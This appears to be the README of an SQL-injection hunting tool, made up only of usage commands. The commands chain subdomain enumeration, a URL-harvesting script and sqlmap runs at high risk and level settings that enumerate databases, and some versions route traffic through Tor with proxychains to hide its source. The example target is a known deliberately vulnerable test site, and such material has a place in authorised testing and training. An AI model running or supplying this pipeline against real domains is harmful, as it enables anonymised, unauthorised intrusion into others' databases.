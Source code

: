 # SQLscaninjection

Usage Examples
Run without proxychains:

subfinder -d testphp.vulnweb.com -all -silent | python3 sqlihunter.py -o sqliurls.txt -r 1
Run with a file:

python3 sqlihunter.py -f domains.txt -o sqliurls.txt -r 2
Combined with sqlmap:

subfinder -d testphp.vulnweb.com -all -silent | python3 sqlihunter.py -o sqliurls.txt; sqlmap -m sqliurls.txt --batch --dbs --risk 2 --level 5 --random-agent | tee -a sqli.txt
Start Proxychains:

sudo service tor start
Test Proxychains:

proxychains curl -I https://www.google.com
We wait for 200 ok

Run with proxychains:

proxychains subfinder -d testphp.vulnweb.com -all -silent | proxychains python3 sqlihunter.py -o sqliurls.txt -r 1 --use-proxychains

Run with proxychains and combined with sqlmap:
proxychains subfinder -d testphp.vulnweb.com -all -silent | proxychains python3 sqlihunter.py -o sqliurls.txt -r 1 --use-proxychains ; sqlmap -m sqliurls.txt --batch --dbs --risk 2 --level 5 --random-agent | tee -a sqli.txt

